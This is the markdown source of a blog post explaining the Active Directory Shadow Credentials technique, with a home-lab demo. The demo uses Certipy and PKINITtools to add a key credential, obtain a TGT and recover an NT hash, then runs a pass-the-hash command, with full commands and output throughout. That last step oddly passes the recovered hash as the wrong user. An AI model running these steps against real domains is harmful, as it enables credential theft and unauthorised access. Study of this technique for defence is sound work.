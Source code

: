 ```yaml
---
layout: post
title: Abusing the msds-KeyCredentialLink Propertie in Active Directory - Understanding Shadow Credentials
subtitle: Using Certipy To Exploit msds-KeyCredentialLink Remotley
tags: [AD]
---
```


# What is a Shadow Credential 
Within Active Directory, both user and computer objects possess an attribute named `msds-KeyCredentialLink`, which serves as a storage location for raw public keys. These public keys can be used in Kerberos to obtain a Ticket Granting Ticket (TGT). Adding a credential/public key to this attribute is known as a "Shadow Credential." A Shadow Credential can then be used in conjunction with a Kerberos extension called Service for User to Self (S4U2Self) to obtain the NT hash of that user. 

When using public key authentication a client can obtain a special Service Ticket that contains their NTLM hash when trying to access a resource that requires it. Inside that Service Ticket is the the Privilege Attribute Certificate (PAC) that contains an entity with the encrypted NTLM hash. We cannot decrypt this because it is encrypted using the key of the service that it is issued for. 

The S4U2Self mechanism allows a user to obtain a Service Ticket for themselves, giving us the ability to decrypt the PAC. S4U2Self Service Tickets are encrypted using the targets session key.

There are two requirements that must be present in order to perform this type of attack
- Active Directory Certificate Services installed on at least a 2016 Domain Controller
- A compromised account that has rights to the `msds-KeyCredentialLink` attribute to whatever user/computer you want to exploit

Below is a basic flow of the attack
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/shadowDiag.png)
# Demo
_For this demo I will do the exploitation from a remote kali machine rather than on a windows host._

In my home lab I set up a new account called `sauron` and gave `frodo` write and read permissions for the attribute `msds-KeyCredentialLink`
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/writeshadow.png)

ly4k wrote a great tool called [certipy](https://github.com/ly4k/Certipy) that takes advantage of public Active Directory Certificate Services (AD CS). It has a option called `shadow` that can; list, add, remove ,clear, show info, and auto pwn the `msDS-KeyCredentialLink` attribute. 

Using the `add` command lets me add a new raw public key to the `sauron` account
```
┌──(root㉿kali)-[~]
└─# certipy shadow add -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa'
[*] Adding Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Saved certificate and private key to 'sauron.pfx'
```

Looking at the property on suaron's account a new attribute is present 
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/shadow.png)

Next we can use `gettgtpkinit.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) to request a TGT using the `.pfx` file generated from `certipy`. It will give us a TGT and the AS-REP encryption key we will use de decrypt the PAC.
```
┌──(root㉿kali)-[~]
└─# python3 gettgtpkinit.py -cert-pfx sauron.pfx lotr.local/sauron out.ccache
2023-05-11 17:24:03,939 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-05-11 17:24:04,026 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-05-11 17:24:04,034 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-05-11 17:24:04,034 minikerberos INFO     9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
INFO:minikerberos:9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
2023-05-11 17:24:04,037 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Cache the ticket in our current session
```
┌──(root㉿kali)-[~]
└─# export KRB5CCNAME=out.ccache
```

Finally `getnthash.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py), will use the TGT to request a PAC using S4U2Self. It will also decrypt the PAC **giving us the NT hash**.
```
┌──(root㉿kali)-[~]
└─# python3 getnthash.py -key 9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421 lotr.local/sauron
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
0f7421a8a3d0b0adcafa6862fd766818
```

`certipy`, has an `auto` command that will add a new Key to the target, authenticate with the key to get the TGT and NT hash, and then clean up.
```
certipy shadow auto -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a'
[*] Adding Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Authenticating as 'sauron' with the certificate
[*] Using principal: sauron@lotr.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'sauron.ccache'
[*] Trying to retrieve NT hash for 'sauron'
[*] Restoring the old Key Credentials for 'sauron'
[*] Successfully restored the old Key Credentials for 'sauron'
[*] NT hash for 'sauron': 0f7421a8a3d0b0adcafa6862fd766818
```

Then a pass the hash attack can be performed 
```
┌──(root㉿kali)-[~]
└─# crackmapexec smb -u frodo -H 0f7421a8a3d0b0adcafa6862fd766818 -d lotr 10.10.1.47 -x 'dir'
SMB         10.10.1.47      445    WORKSTATION      [*] Windows 10 Pro 19044 x64 (name:WORKSTATION) (domain:lotr) (signing:False) (SMBv1:True)
SMB         10.10.1.47      445    WORKSTATION      [+] lotr\frodo:0f7421a8a3d0b0adcafa6862fd766818
```

These NT hashes can be cracked offline or used in a pass the hash attack. In the event that you have permissions to do this on a computer account you could take an additional step and use `impacket-ticketer` to gain a Service Ticket as HOST or CIFS as an administrator and authenticate to the machine.
